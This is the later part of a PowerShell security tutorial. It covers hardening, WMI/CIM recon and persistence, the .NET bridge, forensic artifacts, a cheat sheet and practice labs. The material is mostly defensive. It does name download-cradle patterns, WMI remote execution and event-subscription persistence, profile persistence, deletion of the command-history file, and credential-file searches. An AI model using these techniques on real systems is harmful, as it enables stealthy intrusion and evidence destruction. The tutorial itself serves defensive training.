Concrete steps: enable the three logging policies (Part 11); **remove PowerShell 2.0** (`Disable-WindowsOptionalFeature -Online -FeatureName MicrosoftWindowsPowerShellV2Root`) so attackers can't downgrade past AMSI/SBL; enforce **WDAC or AppLocker** to trigger Constrained Language Mode; keep Defender enabled so AMSI has an engine; and forward `Microsoft-Windows-PowerShell/Operational` to your SIEM.

> **Blue Team CTF / detection challenge** — On Splunk BOTS and THM's PowerShell/Windows-event rooms, the drill is exactly the above: decode a captured `-enc` blob, pivot from a 4688 launch to the matching 4104 script block to read what actually ran, and flag the Office→PowerShell parent-child chain. "How attackers get caught" is almost always 4104 (the decoded code) plus the `-enc/-w hidden/-nop` command line and a v2 downgrade.

---

## Part 13: WMI and CIM — Querying the Whole Machine

One of the most powerful things you can do from PowerShell is talk to **WMI** (Windows Management Instrumentation) and its modern front-end **CIM** (Common Information Model). WMI is a giant, queryable database of *everything* about a Windows machine — hardware, OS, processes, services, installed software, logged-on users, network config — exposed through a SQL-like query language (WQL). For recon, IR, and persistence it is indispensable, and it's a favourite attacker mechanism because it's stealthy and built in.

Use the **CIM** cmdlets (`Get-CimInstance`), not the legacy `Get-WmiObject` — CIM uses the modern WS-Man protocol, works better remotely, and is the current standard:

```powershell
Get-CimInstance Win32_OperatingSystem | Select Caption, Version, BuildNumber
Get-CimInstance Win32_ComputerSystem  | Select Manufacturer, Model, Domain
Get-CimInstance Win32_Process         | Select Name, ProcessId, CommandLine   # command lines!
Get-CimInstance Win32_Service | Where-Object {$_.StartMode -eq 'Auto' -and $_.State -ne 'Running'}
Get-CimInstance Win32_LogonSession
Get-CimInstance Win32_StartupCommand   # autostart entries (persistence)
```

`Win32_Process` returning `CommandLine` is enormously useful for both hunting (spot `-enc` launches) and recon (see what a service actually runs). You can query remote machines too:

```powershell
Get-CimInstance Win32_OperatingSystem -ComputerName dc01 -Credential (Get-Credential)
```

### WMI as an attack surface

WMI isn't just for reading. Attackers use it for three things you must recognize:

- **Recon** — the queries above enumerate an entire host without dropping tools.
- **Lateral execution** — `Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine='...'}` spawns a process on a remote box (the WMI equivalent of `psexec`; Impacket's `wmiexec` uses this).
- **Persistence** — a **permanent WMI event subscription** (an `__EventFilter` + `CommandLineEventConsumer` bound together) runs attacker code when a trigger fires (e.g., at every boot), storing the payload in the WMI repository rather than on disk. This is a classic stealthy persistence technique.

```mermaid
flowchart LR
    A[Get-CimInstance / WQL] --> B[Recon: OS, procs, services]
    A --> C[Invoke-CimMethod Create<br/>= remote execution]
    A --> D[__EventFilter + Consumer<br/>= fileless persistence]
    style D fill:#402
    style C fill:#402
```



**Blue team:** hunt WMI persistence with `Get-CimInstance -Namespace root\subscription -ClassName __EventFilter` (and `CommandLineEventConsumer`, `__FilterToConsumerBinding`). Sysmon Event IDs **19/20/21** are dedicated to WMI filter/consumer/binding creation — high-fidelity persistence alerts. Remote `Win32_Process` Create shows up as a `wmiprvse.exe`-parented process.

> **CTF Angle** — `Get-CimInstance Win32_Product` and `Win32_Service` (unquoted service paths!) are staple privesc-recon on Windows HTB/THM boxes. `Get-CimInstance Win32_Process | Select Name,CommandLine` frequently leaks credentials passed on a service command line — an instant win.

---

## Part 14: Modules, the Gallery, and the .NET Bridge

PowerShell's functionality ships in **modules** — bundles of cmdlets you load with `Import-Module`. Many are built in (`Get-Module -ListAvailable` shows them); others you install from the **PowerShell Gallery**, Microsoft's public repository.

```powershell
Get-Module                       # currently loaded
Get-Module -ListAvailable        # everything installed on the box
Import-Module ActiveDirectory    # load a module's cmdlets
Find-Module PSReadLine           # search the Gallery
Install-Module Az -Scope CurrentUser   # install from the Gallery
```

The **ActiveDirectory** module (`Get-ADUser`, `Get-ADComputer`, `Get-ADGroupMember`) is the sanctioned way to enumerate a domain from a joined box, and it's exactly what both admins and attackers use for AD recon:

```powershell
Get-ADUser -Filter * -Properties LastLogonDate | Select Name, Enabled, LastLogonDate
Get-ADGroupMember 'Domain Admins'
Get-ADComputer -Filter * | Select Name, OperatingSystem
```

### The .NET bridge — where PowerShell gets its power (and danger)

Because PowerShell runs on .NET, it can instantiate *any* .NET type and even compile C# on the fly. This is what elevates PowerShell from "a shell" to "a programmable runtime" — and it's the capability offensive tooling depends on:

```powershell
[System.Math]::Sqrt(144)                      # call a static .NET method
[System.Net.Dns]::GetHostAddresses('vercel.com')
$wc = New-Object System.Net.WebClient          # instantiate a .NET class
Add-Type -TypeDefinition 'public class X { public static int Add(int a,int b){return a+b;} }'
[X]::Add(2,3)
```

`Add-Type` compiles C# in-process — the mechanism many tools use to call raw Win32 APIs (e.g., `VirtualAlloc`, `CreateThread`) directly from PowerShell for shellcode execution. This is precisely why **Constrained Language Mode** (Part 10) blocks `Add-Type`, `New-Object` on arbitrary types, and direct .NET calls: removing the .NET bridge removes most of PowerShell's weaponization while leaving normal cmdlet-based admin intact.

```mermaid
flowchart TD
    A[PowerShell on .NET] --> B[Call any .NET type<br/>System.Net.WebClient etc.]
    A --> C[Add-Type: compile C# in-memory]
    C --> D[P/Invoke Win32 APIs<br/>VirtualAlloc, CreateThread]
    D --> E[Shellcode / advanced tradecraft]
    F[Constrained Language Mode] -.blocks.-> B
    F -.blocks.-> C
    style E fill:#402
    style F fill:#024
```



> **Red Team note (lawful use only)** — The `.NET`/`Add-Type` path is why "PowerShell = C2 runtime" was true for years. On hardened hosts (CLM + WDAC) it's dead, which is a big reason mature operators moved to compiled C#/.NET tooling and BOFs. Knowing *why* CLM matters is more useful than any single bypass.

---

## Part 15: Profiles, History, and the IR Artifacts PowerShell Leaves Behind

PowerShell leaves a trail on disk that matters for both attackers (persistence, cleanup) and defenders (forensics). Knowing these artifacts turns "someone ran PowerShell" into "here's exactly what they typed."

### PSReadLine console history — the forensic goldmine

Every interactive command you type is saved, by default, to a plaintext file:

```powershell
(Get-PSReadLineOption).HistorySavePath
# C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Get-Content (Get-PSReadLineOption).HistorySavePath -Tail 50
```

This file persists across sessions and reboots and is **not** the same as the in-session `Get-History`. In IR it frequently hands you an attacker's exact commands — cradles, credentials typed on the command line, tools run. In an engagement it's a first-class loot target. Defenders should treat it as evidence; attackers often try to clear it, which is itself suspicious.

```powershell
Clear-History                                       # clears in-session history only
Remove-Item (Get-PSReadLineOption).HistorySavePath  # attacker anti-forensics (log this!)
```

### Profiles — startup scripts (and a persistence vector)

A **profile** is a `.ps1` that runs automatically every time PowerShell starts — the equivalent of `.bashrc`. There are several, at machine and user scope:

```powershell
$PROFILE | Select-Object *              # paths to the current user's profiles
$PROFILE.AllUsersAllHosts               # machine-wide profile (admin-writable)
Test-Path $PROFILE                      # does one exist?
```

Because a profile executes on every launch, writing to it is a **persistence technique**: an attacker who appends a download cradle to `$PROFILE` gets code execution whenever the user opens PowerShell. Blue team: monitor writes to profile paths (Sysmon Event ID 11 on `Microsoft.PowerShell_profile.ps1` and `profile.ps1`), and audit them during IR.

| Artifact | Location | Value |
|----------|----------|-------|
| PSReadLine history | `%APPDATA%` PSReadLine `ConsoleHost_history.txt` | Exact typed commands, across sessions |
| Transcripts | wherever Transcription policy points | Full input/output logs |
| Script Block logs | `Microsoft-Windows-PowerShell/Operational` (4104) | Decoded executed code |
| Profiles | `$PROFILE` paths | Persistence + what auto-runs |
| Module logs | Operational (4103) | Pipeline invocation detail |

> **Blue Team CTF / detection challenge** — Many DFIR CTFs hinge on `ConsoleHost_history.txt`: it's often where the flag (or the attacker's next move) is spelled out verbatim. Pair it with 4104 to reconstruct the full session, and watch for a suspicious `Remove-Item` of the history file or an appended `$PROFILE` as the persistence tell.

---

## Part 16: Common Pitfalls and Misconceptions

- **"Execution Policy stopped the attacker."** It never does — `-ep bypass`, stdin piping, and `iex` all ignore it. It's a guardrail against accidents, not adversaries (Part 7).
- **"Base64/-enc hides the payload."** Not from Script Block Logging (4104), which records the decoded code. Always look for the matching 4104 event.
- **"`Where-Object {$_.x -eq 1}` vs `Where x -eq 1`."** The second (simplified syntax) works for one simple comparison; the scriptblock form is needed for compound logic. Mixing them up produces silent wrong results.
- **"Remote objects behave like local ones."** Remoting returns *deserialized* objects — properties yes, live methods no. `.Kill()` on a remotely-returned process fails.
- **"PowerShell 7 (`pwsh`) is what attackers use."** Usually it's `powershell.exe` 5.1 — it's guaranteed present. Don't only monitor `pwsh`.
- **"SecureString is encryption."** It's per-user obfuscation; `GetNetworkCredential().Password` reveals it in the same user context. Don't treat stored SecureStrings as safe secrets.
- **"`$_` works anywhere."** It's only bound inside pipeline-processing blocks (`Where-Object`, `ForEach-Object`, `process{}`). Outside them it's empty.

---

## Part 17: Real-World Context and Notable Abuse

- **Empire, PowerSploit, Nishang, PowerView** — the classic offensive PowerShell frameworks. PowerView (AD recon) and PowerUp (privesc) remain staples on CTF boxes and in real assessments; their heavy AMSI/SBL footprint is why modern operators often port them to C#.
- **Fileless malware waves (2017–onward)** — the surge in `powershell -enc` download cradles drove Microsoft to ship AMSI and expand Script Block Logging; it's the direct historical reason the telemetry in Part 12 exists.
- **Macro → PowerShell initial access** — phishing docs whose macros spawn `powershell.exe -enc` remain one of the most common initial-access chains; the Office-parent detection is a top-tier rule for a reason.
- **Ransomware & living-off-the-land** — numerous ransomware crews use PowerShell for discovery, disabling defenses, and deployment precisely because it's trusted and pre-installed. Detection maturity on 4104 is a real determinant of whether these are caught early.

None of this is trivia — it's why "just monitor PowerShell" is one of the highest-ROI detections a Windows shop can build.

---

## Part 18: Final Revision — The One-Page Mental Model

- **PowerShell pipes objects, not text.** `Get-Process | Where-Object {$_.CPU -gt 10} | Select Name,Id` works on *properties*, not parsed columns. `Get-Member` X-rays any object; `Get-Command`/`Get-Help` make the whole shell self-teaching.
- **Cmdlets are `Verb-Noun`** and guessable; aliases (`iex`, `iwr`, `gci`, `%`, `?`) are shorthand — and red flags in payloads.
- **Providers** expose the registry (`HKLM:`), env vars (`Env:`), and certs (`Cert:`) as drives you navigate with the same cmdlets — great for enumerating persistence and leaked secrets.
- **Execution Policy is not security.** Real control = Constrained Language Mode (via WDAC/AppLocker), code signing, and logging.
- **Offense** lives off the land: `powershell.exe` is signed and everywhere; encoded commands (`-enc`), `-nop -w hidden`, and `IEX(DownloadString(...))` cradles run code in memory with no file on disk; obfuscation defeats string matching.
- **Defense** is telemetry: **Script Block Logging (4104)** records the *decoded* code, **AMSI** scans the deobfuscated script at runtime, **CLM** removes the dangerous language features, and removing **PowerShell v2** blocks downgrade bypasses.



---

## Part 19: Cheat Sheet

**Discovery**
```powershell
Get-Command *keyword*         # find cmdlets
Get-Help Cmdlet -Full|-Examples
Get-Process | Get-Member      # inspect object type/members
Get-PSDrive                   # list providers/drives
```

**Pipeline workhorses**
```powershell
... | Where-Object {$_.Prop -eq 'x'}   # filter
... | Sort-Object Prop -Descending     # sort
... | Select-Object A,B -First 5       # project / limit
... | ForEach-Object { $_.Method() }   # act on each
... | Select-String -Pattern 'pw'      # grep contents
... | Export-Csv out.csv -NoTypeInformation
```

**Enumeration (recon)**
```powershell
Get-LocalUser; Get-LocalGroupMember Administrators
Get-ChildItem Env:                       # env secrets
Get-ItemProperty 'HKLM:\...\CurrentVersion\Run'   # autoruns
Get-ChildItem C:\ -Recurse -Force -Include *.kdbx,*.config | Select FullName
Get-WinEvent -LogName Security -MaxEvents 50
```

**Remoting**
```powershell
$cred = Get-Credential
Invoke-Command -ComputerName host -Credential $cred -ScriptBlock { hostname }
Enter-PSSession -ComputerName host -Credential $cred
```

**Offense reference (decode/inspect)**
```powershell
# decode an -enc blob
[Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('<b64>'))
# language mode check
$ExecutionContext.SessionState.LanguageMode
```

**Defense quick-map**
```
Enable   HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging = 1
Hunt     4104 (decoded code) | 4688/Sysmon1 (-enc -nop -w hidden) | 400 EngineVersion=2.0
Harden   Remove PS v2 | WDAC/AppLocker => CLM | keep Defender/AMSI on
```

---

## Part 20: Practice Labs & Resources

Train each specific skill from this chapter:

- **Under the Wire — "PowerShell" (Century / Grok)**: a wargame played entirely in PowerShell, exactly like OverTheWire but for PS. The best pure-fundamentals drill for Parts 1–6.
- **TryHackMe — "Hacking with PowerShell"** and **"PowerShell for Pentesters"**: cmdlets, the pipeline, enumeration, and offensive one-liners — mirrors Parts 3–9.
- **TryHackMe — "Windows Event Logs" / "Investigating with Splunk"** and **Splunk BOTS**: decode `-enc` blobs and hunt 4104/4688 — mirrors Parts 11–12.
- **HackTheBox — Windows/AD boxes (Forest, Sauna, Blackfield)**: use PowerView/PowerUp and the pipeline for recon and privesc under real AMSI/SBL conditions.
- **PowerShell 100 / Microsoft Learn "Introduction to PowerShell"**: structured coverage of scripting, functions, and error handling for Part 6.
- **AMSI/CLM labs (e.g., pwn.college Windows modules, DetectionLab)**: safely experiment with AMSI behavior and Constrained Language Mode from Part 10.

### Practice questions

1. You see `powershell.exe -nop -w hidden -enc SQBFAFgA...` in a 4688 event. What do the three flags mean, and where do you look to read the *actual* code that ran (and why is Base64 no obstacle)?
2. Explain, with a one-line example each, why `Get-Process | Sort-Object CPU` is more robust than the Bash `ps | sort` equivalent.
3. A junior says "Execution Policy is set to Restricted, so we're safe from PowerShell malware." Give three ways that statement is wrong.
4. Write a one-liner that lists all running services whose name starts with "win", sorted alphabetically, showing only Name and Status.
5. Why does removing PowerShell 2.0 improve security even though 5.1 is installed, and what specific defensive mechanisms does the v2 downgrade evade?

---

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/windows-fundamentals/04-powershell-fundamentals-and-the-object-pipeline), with comments and the latest edits.*
